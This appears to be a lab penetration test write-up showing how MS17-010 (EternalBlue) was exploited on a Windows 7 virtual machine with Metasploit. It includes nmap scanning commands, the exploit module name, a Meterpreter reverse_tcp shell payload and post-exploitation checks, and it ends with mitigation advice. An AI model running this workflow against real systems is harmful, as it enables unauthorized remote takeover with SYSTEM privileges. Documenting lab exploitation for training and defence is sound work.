




# MS17-010 (EternalBlue) Penetration Testing Report

---

# Executive Summary

A penetration test was performed against a vulnerable Windows 7 Professional SP1 virtual machine inside an isolated VMware laboratory.

The objective was to identify publicly known vulnerabilities, validate exploitability, and demonstrate successful remote code execution using the Metasploit Framework.

The assessment successfully achieved SYSTEM-level access through exploitation of the MS17-010 SMB vulnerability.

---

# Scope

## Target

| Item | Value |
|------|-------|
| Operating System | Windows 7 Professional SP1 x64 |
| IP Address | 192.168.243.131 |

## Attacker

| Item | Value |
|------|-------|
| Operating System | Kali Linux |
| IP Address | 192.168.243.128 |

---

# Lab Topology


---

# Methodology

The assessment followed a standard penetration testing workflow:

1. Reconnaissance
2. Enumeration
3. Vulnerability Identification
4. Exploitation
5. Post-Exploitation

---

# Phase 1 — Reconnaissance

## Objective

Verify network connectivity and identify the target host.

## Commands

```bash
ping -c 4 192.168.243.131

sudo arp-scan 192.168.243.0/24

sudo nmap -sn 192.168.243.131
```

## Findings

- Target reachable.
- Network communication confirmed.
- Windows host identified.



---

# Phase 2 — Service Enumeration

## Objective

Identify exposed services and operating system information.

## Command

```bash
sudo nmap -sV -O 192.168.243.131
```

## Findings

Open ports:

| Port | Service |
|-------|----------|
|135|MSRPC|
|139|NetBIOS|
|445|SMB|
|49152-49157|RPC|

Operating System:

Windows 7 Professional SP1 x64



---

# Phase 3 — SMB Enumeration

## Objective

Gather information from the SMB service.

## Command

```bash
sudo nmap --script smb-os-discovery,smb-enum-shares -p445 192.168.243.131
```

## Findings

- SMB detected.
- Administrative shares protected.
- IPC$ readable.
- Workgroup identified.



---

# Phase 4 — Vulnerability Identification

## Objective

Determine whether the target is vulnerable to MS17-010.

## Command

```bash
sudo nmap --script smb-vuln-ms17-010 -p445 192.168.243.131
```

## Findings

| Vulnerability | Status |
|--------------|--------|
| MS17-010 | Vulnerable |

Risk Level:

High

CVE:

CVE-2017-0143



---

# Phase 5 — Exploitation

## Objective

Gain remote code execution using EternalBlue.

## Exploit

```
exploit/windows/smb/ms17_010_eternalblue
```

## Payload

```
windows/x64/meterpreter/reverse_tcp
```

## Result

A Meterpreter session was successfully established.


---

# Phase 6 — Post-Exploitation

## Objective

Verify privilege level and collect host information.

## Commands

```
getuid

sysinfo

getpid

pwd
```

## Findings

Privilege Level:

```
NT AUTHORITY\SYSTEM
```

Operating System:

```
Windows 7 Professional SP1 x64
```

Working Directory:

```
C:\Windows\System32
```


---

# Security Impact

Successful exploitation of MS17-010 allows an attacker to:

- Execute arbitrary code remotely.
- Gain SYSTEM-level privileges.
- Fully compromise the operating system.
- Potentially move laterally across vulnerable Windows systems.

---

# Mitigation

- Apply Microsoft's MS17-010 security update.
- Disable SMBv1.
- Restrict access to TCP port 445.
- Segment internal networks.
- Monitor SMB traffic.
- Deploy Endpoint Detection and Response (EDR).

---

# Conclusion

The assessment confirmed that the target Windows 7 Professional SP1 system was vulnerable to the MS17-010 (EternalBlue) remote code execution vulnerability.

Using the Metasploit Framework, successful exploitation resulted in a Meterpreter session with NT AUTHORITY\SYSTEM privileges, demonstrating complete compromise of the target host.

This assessment highlights the critical importance of timely patch management and the removal of legacy protocols such as SMBv1.
